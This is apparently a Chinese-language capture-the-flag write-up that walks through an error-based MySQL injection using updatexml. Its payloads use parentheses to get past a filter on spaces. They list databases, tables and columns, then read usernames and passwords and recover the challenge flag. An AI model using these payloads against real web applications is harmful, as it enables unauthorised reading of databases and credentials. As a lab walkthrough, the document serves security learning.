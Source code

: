 #利用()绕过空格，中间的select用括号包裹

```sql
'admin'or(
    updatexml(
        1,
        concat(
            0x7e,
            (
                select()
            ),
            0x7e
        ),
        1
    )
)%23
```

#爆数据库名

```sql
'admin'or(
    updatexml(
        1,
        concat(
            0x7e,
            (
                select(
                    database()
                )
            ),
            0x7e
        ),
        1
    )
)%23
```

#通过group_concat列出所有的数据库名，注意updatexml的报错长度限制32位

```sql
'admin'or(
    updatexml(
        1,
        concat(
            0x7e,
            (
                select(
                    group_concat(schema_name)
                )from(
                    information_schema.schemata
                )
            ),
            0x7e
        ),
        1
    )
)%23
```

#通过right函数，从右边取30个（0x7e符号占了两个），就可以看到后面的内容
#此时可以找到一个geek数据库

```sql
'admin'or(
    updatexml(
        1,
        concat(
            0x7e,
            (
                select(
                    right(
                        group_concat(
                            schema_name
                        ),30
                    )
                )from(
                    information_schema.schemata
                )
            ),
            0x7e
        ),
        1
    )
)%23
```

#通过group_concat列出所有的表名，同样因为长度限制，我们用where限定列出范围为geek数据库，因为空格过滤，要用括号绕过的话，需要用到like语句指定table_schema为geek

```sql
'admin'or(
    updatexml(
        1,
        concat(
            0x7e,
            (
                select(
                    group_concat(table_name)
                )from(
                    information_schema.tables
                )where(
                    table_schema
                )like(
                    'geek'
                )
            ),
            0x7e
        ),
        1
    )
)%23
```

#用上一步同样的方法列出所有H4rDsq1数据表的字段名

```sql
'admin'or(
    updatexml(
        1,
        concat(
            0x7e,
            (
                select(
                    group_concat(column_name)
                )from(
                    information_schema.columns
                )where(
                    table_name
                )like(
                    'H4rDsq1'
                )
            ),
            0x7e),
        1
    )
)%23
```

#通过正常的查询语句select group_concat(id,"~",username,"~",password) from geek.H4rDsq1，使用group_concat连接三个字段的内容，可以看到flag在password字段内但超过长度限制

```sql
'admin'or(
    updatexml(
        1,
        concat(
            0x7e,
            (
                select(
                    group_concat(
                        id,
                        "~",
                        username,
                        "~",
                        password
                    )
                )from(
                    geek.H4rDsq1
                )
            ),
            0x7e
        ),
        1
    )
)%23
```

#通过right函数取后面30位

```sql
'admin'or(
    updatexml(
        1,
        concat(
            0x7e,
            (
                select(
                    right(
                        group_concat(
                            id,
                            "~",
                            username,
                            "~",
                            password),30
                    )
                )from(
                    geek.H4rDsq1
                )
            ),
            0x7e
        ),
        1
    )
)%23
```

#拼接flag两端

#flag{1e409a47-b799-4ef2-95f5-85c28c84f495}

